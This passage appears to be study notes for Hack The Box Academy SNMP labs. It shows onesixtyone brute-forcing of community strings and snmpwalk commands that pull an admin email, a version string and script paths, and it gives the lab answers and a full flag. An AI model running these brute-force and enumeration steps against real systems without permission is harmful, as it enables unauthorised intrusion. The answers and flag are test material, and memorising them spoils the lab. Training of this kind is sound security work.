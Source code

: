 ### Running Processes and Scripts
```bash
# Extract custom scripts and processes
snmpwalk -v2c -c public target 1.3.6.1.2.1.25.1.7.1.2

# Look for custom scripts like:
# iso.3.6.1.2.1.25.1.7.1.2.1.2.4.70.76.65.71 = STRING: "/usr/share/flag.sh"
```

## Practical Examples

### HTB Academy Style Enumeration
```bash
# Step 1: Community string brute force
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings.txt target
# Result: Found community string "backup"

# Step 2: SNMP walking with found community string
snmpwalk -v2c -c backup target

# Step 3: Extract admin email
snmpwalk -v2c -c backup target | grep -i "@"
# Result: devadmin@inlanefreight.htb

# Step 4: Extract custom version
snmpwalk -v2c -c backup target | grep -i "version"
# Result: InFreight SNMP v0.91

# Step 5: Look for custom scripts and flags
snmpwalk -v2c -c backup target | grep -i "htb\|flag"
# Result: HTB{5nMp_fl4g_uidhfljnsldiuhbfsdij44738b2u763g}
```

### HTB Academy Lab Questions Examples
```bash
# Question 1: "Enumerate the SNMP service and obtain the email address of the admin"
# Step 1: Find valid community string
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings.txt target
# Step 2: Extract admin contact
snmpwalk -v2c -c found_community target 1.3.6.1.2.1.1.4.0
# Look for: iso.3.6.1.2.1.1.4.0 = STRING: "admin <admin@inlanefreight.htb>"
# Answer: admin@inlanefreight.htb

# Question 2: "What is the customized version of the SNMP server?"
# Extract from system location or custom OID
snmpwalk -v2c -c found_community target 1.3.6.1.2.1.1.6.0
# Look for: iso.3.6.1.2.1.1.6.0 = STRING: "InFreight SNMP v0.91"
# Answer: InFreight SNMP v0.91

# Question 3: "Enumerate the custom script that is running on the system"
# Look for custom scripts in process/service OIDs
snmpwalk -v2c -c found_community target 1.3.6.1.2.1.25.1.7.1.2
# Look for custom script paths like:
# iso.3.6.1.2.1.25.1.7.1.2.1.2.4.70.76.65.71 = STRING: "/usr/share/flag.sh"
# Execute or analyze the script output
# Answer: Script output or HTB{...} flag
```
